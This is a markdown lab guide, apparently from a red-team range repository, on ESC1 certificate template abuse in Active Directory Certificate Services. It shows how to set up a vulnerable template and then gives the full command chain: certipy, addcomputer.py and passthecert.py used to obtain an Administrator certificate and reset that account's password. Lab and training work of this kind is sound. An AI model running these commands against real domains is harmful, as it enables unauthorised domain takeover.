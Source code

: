 # Certificate Template Abuse
## Summary

Certificate Template Abuse is a technique that can be used to impersonate/take control of any user in a domain given a misconfiguration in certificate templates in the Active Directory Certificate Services (ADCS). To learn more about this technique, please visit [this excellent blog post.](https://posts.specterops.io/certified-pre-owned-d95910965cd2)

## Prerequisites

Active Directory with ADCS set up and configured. A certificate template must be created where the enrollee can specify the Subject Alternative Name (SAN), and can authenticate via the template. Further, a non-privileged account or group must be able to enroll into the template and the attacker must have control over that account or group.

## Setup

First, a domain controller must be configured. It is important to *NOT* install the Certificate Services PRIOR to promoting to a domain controller. Failure to abide by this will prevent you from promoting the server into a domain controller. Thank you Windows! Once "Active Directory Domain Services" has been installed and the server has been promoted, then and only then install "Active Directory Certificate Services" from the "Add Roles and Features" menu.

All of the defaults when adding ADCS to the range are fine. Only the "Certificate Authority" is required, and the setup type of the CA should be set to "Enterprise CA".

![image](./images/Pasted%20image%2020230719113536.png)

Next, go to Tools -> Certification Authority, and then right click -> Manage on Certificate Templates.

![image](./images/Pasted%20image%2020230719113831.png)

Find a template that has the most features enabled that you want to use, in this case I chose "Workstation Authentication", and then I duplicated the template.

![image](./images/Pasted%20image%2020230719120516.png)

For ESC1, change the Subject Name to be handled by the enrollee by selecting "Supply in the request".

![image](./images/Pasted%20image%2020230719114320.png)

To add or remove specific features, modify the Application Policies in the Extensions tab.

![image](./images/Pasted%20image%2020230719114419.png)

To control who can enroll, change the settings in the Security tab.

![image](./images/Pasted%20image%2020230719115833.png)

With the new template created, close the window and then click on "Certificate Templates", and then go to Action -> New -> Certificate Template to Issue. Select the template that was just created in the following window and click OK.

![image](./images/Pasted%20image%2020230719130337.png)

LDAP needs to have SSL enabled to authenticate using the certificates. Reboot the DC after all of these changes have been made. God fucking help you if LDAPS doesn't work, cause he didn't help me.

## Execution

### Method 1 - ESC1

The first step is to determine if any certificate template is vulnerable. Using the [certipy](https://github.com/ly4k/Certipy) utility, run the following command to query the ADCS service:

```bash
certipy find -u username -p password -dc-ip <ip>
```

The command should product a txt and json file. Use the `jq` command below to trim out irrelevant details:

```bash
jq '."Certificate Templates" | .[] | select(.Enabled == true) | select(."[!] Vulnerabilities" != null) | {"Template Name", "Client Authentication", "Any Purpose", "Enrollee Supplies Subject", "Permissions", "[!] Vulnerabilities"}' <certipy_output>.json
```

![JQ Output](./images/Pasted%20image%2020230718150901.png)

In this case, the "CorpVPN" template can be used in this exploit. It's important to take note of the CA used in the template, underneath the "Certificate Authorities" block.

In this example, the "Domain Computers" group is able to enroll a certificate. If the user under our control has the ability to create a user account, the following command can be used:

```bash
addcomputer.py -dc-ip <ip> -computer-pass 'Password123' -computer-name 'ComputerName' 'domain.com/username:password' -computer
-group 'CN=Domain Computers,DC=domain,DC=com'
```

![addcomputer.py](./images/Pasted%20image%2020230718145531.png)

Now, using the computer account that was just created, the following certipy command will attempt to abuse the misconfiguration and will return the certifcate and key in a pfx file for the Administrator account:

```bash
certipy req -u 'ComputerName$' -p 'Password123' -dc-ip <ip> -ca '<ASSIGNED-CA>' -template 'CorpVPN' -upn 'Administrator'
```

If the command times out, repeat several times until the output resembles the following:

![pfx file](./images/Pasted%20image%2020230718145653.png)

Some tools may not be able to handle the pfx file, so the following certipy commands will break it into the certificate and key files:

```bash
certipy cert -pfx administrator.pfx -nokey -out administrator.crt
certipy cert -pfx administrator.pfx -nocert -out administrator.key
```

Finally, using [this github repo](https://github.com/AlmondOffSec/PassTheCert/tree/main/Python),  download the "passthecert.py" file to utilize the certificate and key to change the Administrators password:

```bash
passthecert.py -action modify_user -target administrator -new-pass 'Pwned!!' -domain 'domain.com' -dc-ip <ip> -crt administrator.crt -key administrator.key
```

![passthecert](./images/Pasted%20image%2020230718150333.png)

At this point the Administrator users password should be changed to "Pwned!!".

#### Indicators of Compromise

TODO